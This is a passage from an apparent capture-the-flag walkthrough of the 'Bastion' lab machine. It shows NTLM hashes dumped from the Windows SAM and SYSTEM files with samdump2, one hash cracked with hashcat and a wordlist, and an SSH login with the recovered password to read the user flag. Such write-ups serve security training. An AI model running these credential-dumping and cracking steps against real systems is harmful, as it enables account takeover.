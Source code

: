 ```
┌──(root㉿kali)-[/mnt2/Windows/System32/config]
└─# samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```


![[Bastion-05.png]]
##### Cracking hashes

Cracking hashes with the below command

[1] admin and guest

```bash
hashcat -m 1000 31d6cfe0d16ae931b73c59d7e0c089c0 /usr/share/wordlists/rockyou.txt --force
```

Nothing found in admin hash

![[Bastion-06.png]]

[2] L4mpje

```bash
hashcat -m 1000 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt --force
```

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

26112010952d963c8dc4217daec986d9:bureaulampje   
```

Very nice, we get the password of L4mpje. Let's ssh this account to get a shell.

```bash
ssh L4mpje@10.10.10.134
bureaulampje
```

Excellent! we get the shell.

```cmd
whoami
ipconfig
type Desktop\user.txt
```

```
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt                                                                            
cacf2db823c86625b84c032fdf8de984
```
